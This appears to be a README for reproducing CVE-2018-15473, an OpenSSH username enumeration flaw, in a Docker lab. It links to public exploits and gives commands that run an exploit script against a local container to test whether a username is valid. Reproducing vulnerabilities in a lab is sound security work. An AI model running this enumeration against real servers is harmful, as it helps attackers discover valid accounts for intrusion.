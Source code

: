 # CVE-2018-15473

## About
<https://nvd.nist.gov/vuln/detail/CVE-2018-15473>


## PoC / Exploit

* <https://github.com/Rhynorater/CVE-2018-15473-Exploit> 
* <https://www.exploit-db.com/exploits/45210>


## Environment used

* Ubuntu 18.04.3 LTS
* OpenSSH 7.6
* [Docker image](https://drive.google.com/file/d/1ZooVCOkz8D1MRa_G-RoFF--LfQB1q1yt/view?usp=sharing)

## Requirements
```bash
docker load -i image.tar.gz
docker run -it ubuntu1804:latest 
```

## Reproduction
* Terminal 1 (docker)
```bash
bash init.sh
```
* Terminal 2
```bash
python3 cve2.py --port 2222 --username {USERNAME} {IP terminal 1} 2>/dev/null 
```
[comment]: <> (python3 cve2.py --port 2222 --username root 172.17.0.2 2>/dev/null) 

The result should be a message like "{USERNAME} is (not) a valid user!" 

## Links
* [OpenSSL versions](https://www.openssl.org/source/) 
* [Tutorial SSL source compilation](https://askubuntu.com/a/463317)
* [OpenSSH old versions](https://ftp.rnl.tecnico.ulisboa.pt/pub/OpenBSD/OpenSSH/portable)
* [Tutorial SSH source compilation](https://www.tecmint.com/install-openssh-server-from-source-in-linux/)